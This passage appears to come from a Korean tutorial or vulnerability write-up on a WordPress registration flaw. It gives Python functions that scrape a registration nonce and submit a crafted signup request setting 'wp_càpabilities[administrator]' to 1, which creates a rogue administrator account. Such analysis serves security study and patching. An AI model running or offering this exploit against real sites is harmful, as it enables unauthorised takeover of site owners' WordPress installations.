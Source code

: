 **3.2 nonce 값 추출**

Wordpress에서 회원가입을 할 때는 nonce 값이 반드시 필요하다.

```python
def getNonce(target):
    print("[+] Getting nonce...")
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0'
    }
    try:
        r = requests.get(target, headers=headers, verify=False)
        nonce = re.search(r"name=\"_wpnonce\" value=\"(.{10})\"", r.text).groups()[0]
        print("[!] Nonce found: "+nonce)
        return nonce
    except:
        print("Error! Could not get the nonce")
        exit()
```

**3.3 관리자 계정 추가**

Wordpress에서 사용되는 특정 폼을 입력하고 `wp_càpabilities[administrator]` 값을 1로 설정하여 관리자 권한을 부여한다.

```python
def addUser(form_id, nonce, target, username, email, password):
    print("[+] Adding a new administrator...")
    data = {
        f'user_login-{form_id}' : username,
        f'user_email-{form_id}': email,
        f'user_password-{form_id}': password,
        f'confirm_user_password-{form_id}': password,
        f'first_name-{form_id}': 'Minsu',
        f'last_name-{form_id}': 'Jeong',
        'form_id': form_id,
        'um_request': '',
        '_wpnonce': nonce,
        'wp_càpabilities[administrator]': 1
    }
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0'
    }
    r = requests.post(f'{target}/index.php/register/', data=data, headers=headers, verify=False, allow_redirects=False)
    
    if r.status_code == 302:
        print("[!] User added! ")
        print("[+] username: "+username)
        print("[+] email: "+email)
        print("[+] password: "+password)
    else:
        print(r.status_code)
        print("[!] Error! Try with a different user")
```
